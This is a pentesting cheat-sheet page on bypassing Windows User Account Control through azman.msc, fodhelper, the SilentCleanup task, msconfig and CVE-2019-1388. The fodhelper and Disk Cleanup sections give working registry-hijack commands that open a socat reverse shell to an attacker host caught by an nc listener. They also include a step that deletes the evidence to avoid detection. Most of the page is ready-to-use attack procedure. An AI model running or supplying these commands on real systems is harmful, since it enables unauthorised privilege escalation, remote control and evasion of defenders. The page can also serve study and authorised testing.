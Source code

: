 ```yaml
---
title: UAC Windows Privilege Escalation
description: UAC (User Account Control) is an access control enforcement feature.
tags:
    - Windows
refs:
    - https://github.com/nobodyatall648/CVE-2019-1388
date: 2023-03-05
draft: false
---
```


## Automation

**[UACME](https://github.com/hfiref0x/UACME)** is an automation tool for defeating Windows UAC.

<br />

## Investigation

```powershell
# Check the current user's integrity level
whoami /groups | findstr "Label"
whoami /groups | find "Label"
```

<br />

## UAC Bypass

### AZMAN.MSC (Authorization Manager)

1. Open AZMAN.MSC by entering “azman.msc” in the Run.
2. Click Help and select Help Topics. The MMC window will open.
3. In the MMC window, right-click and select View Source. The Notepad opens.
4. In the Notepad, select File → Open. 
5. In Explorer, select Windows/System32/cmd.exe and right-click, then select Open.
6. We should escalate to High integrity level.

### Fodhelper (Features on Demand Helper)

Fodhelper manages the Windows features settings.

First start listener in local machine for getting incoming connection.

```bash
nc -lvnp 4444
```

In remote Windows machien, add subkey to the registry and execute fodhelper to reverse shell.

```powershell
set REG_KEY=HKCU\Software\Classes\ms-settings\Shell\Open\command
set CMD="powershell -windowstyle hidden C:\socat.exe TCP:<local-ip>:4444 EXEC:cmd.exe,pipes"
# /v: Value name under the selected key.
# /d: Data to assign to the registry ValueName being added.
# /f: Force overwriting the existing registry entry without prompt.
reg add %REG_KEY% /v "DelegateExecute" /d "" /f
reg add %REG_KEY% /d %CMD% /f & fodhelper.exe
```

We should get a shell and elevate High integrity level.

To check the IL, run the following command.

```powershell
whoami /groups | find "Label"
```

Finally, we need to clear the above settings to avoid detection.

```powershell
# /f: Forces the deletion without prompt
reg delete HKCU\Software\Classes\ms-settings\ /f
```

### Scheduled Task: Disk Cleanup

Start listener for getting reverse connection in local machine.

```bash
nc -lvnp 4444
```

Add the entry to registry to reverse shell.

```powershell

reg add "HKCU\Environment" /v "windir" /d "cmd.exe /c C:\socat.exe TCP:<local-ip>:4444 EXEC:cmd.exe,pipes &REM " /f
# /run: Start the scheduled tasks immediately.
# /tn: Task name
# /I: Idle time
schtasks /run  /tn \Microsoft\Windows\DiskCleanup\SilentCleanup /I
```

### System Configuration (msconfig)

1. Open System Configuration by entering **"msconfig"** in the Run.
2. Go to Tools tab and select Command Prompt, then click Launch.
3. We should escalate to High integrity level.

<br />

## Abuse UAC Windows Certificate Dialog (CVE-2019-1388)

UAC Windows Certificate Dialog is vulnerable to privilege escalation.

1. Open **hhupd.exe**. The User Account Control window opens.
2. Click the **"Show more details"** and click also **"Show information about the publisher’s certificate"**.  
3. Now click the **"Issued by"** link. Web browser will open.
4. In web browser, select **Tools -> File -> Save as...**.
5. On the explorer window address path, enter the cmd.exe full path as below:

    **"c:\Windows\System32\cmd.exe"**

Now we escalated the privilege.

<br />

